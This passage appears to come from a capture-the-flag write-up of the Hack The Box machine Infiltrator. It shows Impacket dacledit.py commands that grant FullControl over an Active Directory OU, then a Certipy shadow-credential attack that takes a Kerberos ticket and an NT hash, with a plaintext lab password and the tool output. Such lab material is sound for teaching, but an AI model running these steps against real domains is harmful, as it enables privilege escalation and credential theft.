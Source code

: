 How I’ll run `dacledit.py` with `-k and -no-pass` with that ticket set as the `KRB5CCNAME`:

```

oxdf@hacky$ KRB5CCNAME=d.anderson.ccache dacledit.py -action write -rights FullControl -inheritance -principal d.anderson -target-dn "OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB" infiltrator.htb/d.anderson -k -no-pass -dc-ip infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240906-094213.bak
[*] DACL modified successfully!

```

Alternatively, I can just add `-k` to the original command, and it will handle this in the background:

```

oxdf@hacky$ dacledit.py -action write -rights FullControl -inheritance -principal d.anderson -target-dn "OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB" 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip infiltrator.htb -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250610-212946.bak
[*] DACL modified successfully!

```

Either way, now D.Anderson has `FullControl` over all the members of the OU, including E.Rodriguez.

#### Shadow Credential

With `FullControl`, a lot of people would go to changing the password of e.rodriguez. I would much rather add a shadow credential to the account using [Certipy](https://github.com/ly4k/Certipy?tab=readme-ov-file#shadow-credentials) like I showed in [Absolute](/2023/05/27/htb-absolute.html#shadow-credential). This attack is not only stealthier, but also isn’t suceptable to HTB cleanup scripts.

```

oxdf@hacky$ KRB5CCNAME=d.anderson.ccache certipy shadow auto -k -target dc01.infiltrator.htb -account e.rodriguez
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'E.rodriguez'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '030e3bf6-55fc-8c91-3f30-b52c9b22c7f4'
[*] Adding Key Credential with device ID '030e3bf6-55fc-8c91-3f30-b52c9b22c7f4' to the Key Credentials for 'E.rodriguez'
[*] Successfully added Key Credential with device ID '030e3bf6-55fc-8c91-3f30-b52c9b22c7f4' to the Key Credentials for 'E.rodriguez'
[*] Authenticating as 'E.rodriguez' with the certificate
[*] Using principal: e.rodriguez@infiltrator.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'e.rodriguez.ccache'
[*] Trying to retrieve NT hash for 'e.rodriguez'
[*] Restoring the old Key Credentials for 'E.rodriguez'
[*] Successfully restored the old Key Credentials for 'E.rodriguez'
[*] NT hash for 'E.rodriguez': b02e97f2fdb5c3d36f77375383449e56

```
